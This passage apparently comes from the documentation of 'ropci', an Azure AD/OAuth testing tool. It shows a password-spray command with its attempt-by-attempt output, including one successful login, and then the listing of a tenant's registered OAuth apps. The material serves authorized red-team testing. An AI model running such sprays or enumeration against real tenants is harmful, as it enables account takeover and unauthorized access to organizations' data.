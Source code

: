 ```
./ropci auth spray --users-file users.list --passwords-file passwords.list -o result --wait 60 --wait-try 10 
Attempts: 12 for ClientID d3590ed6-52b3-4102-aeff-aad2292ab01c

Attempt 0001: alice@wunderwuzzi.net                     test1242355                     invalid username or password
Attempt 0002: tom@wunderwuzzi.net                       test123                         invalid username or password
Attempt 0003: doesnotexist@wunderwuzzi.net              test1242355                     account does not exist
Attempt 0004: tom@wunderwuzzi.net                       test1242355                     invalid username or password
Attempt 0005: tom@wunderwuzzi.net                       Sommer2022!                     invalid username or password
Attempt 0006: doesnotexist@wunderwuzzi.net              Sommer2022!                     account does not exist
Attempt 0007: alice@wunderwuzzi.net                     test                            invalid username or password
Attempt 0008: alice@wunderwuzzi.net                     test123                         invalid username or password
Attempt 0009: doesnotexist@wunderwuzzi.net              test123                         account does not exist
Attempt 0010: alice@wunderwuzzi.net                     Sommer2022!                     success
Attempt 0011: doesnotexist@wunderwuzzi.net              test                            account does not exist
Attempt 0012: tom@wunderwuzzi.net                       test                            invalid username or password
```

Be aware of any account lockout policies, and make sure you have proper authorization before engaging in such testing.


# Enumerating and evaluating apps

In case you got an access token it is  a good idea to enumerate all the OAuth apps that are registered for a tenant.

## Reading all the registered apps (clientids) of the tenant 

To enumerate all OAuth2 apps (so called servicePrincipals in AAD) use `./ropci apps list`:

```
$ ./ropci apps list
+----------------------------------------------------------------+--------------------------------------+--------------------+
|                          displayName                           |                appId                 |   publisherName    |
+----------------------------------------------------------------+--------------------------------------+--------------------+
| Microsoft Teams Mailhook                                       | 51133ff5-8e0d-4078-bcca-84fb7f905b64 | Microsoft Services |
| OCaaS Client Interaction Service                               | c2ada927-a9e2-4564-aae2-70775a2fa0af | Microsoft Services |
| Microsoft Office Licensing Service vNext                       | db55028d-e5ba-420f-816a-d18c861aefdf | Microsoft Services |
| Messaging Bot API Application                                  | 5a807f24-c9de-44ee-a3a7-329e88a00ffc | Microsoft Services |
| Service Encryption                                             | dbc36ae1-c097-4df9-8d94-343c3d091a76 | Microsoft Services |
| Microsoft Mobile Application Management Backend                | 354b5b6d-abd6-4736-9f51-1be80049b91f | Microsoft Services |
```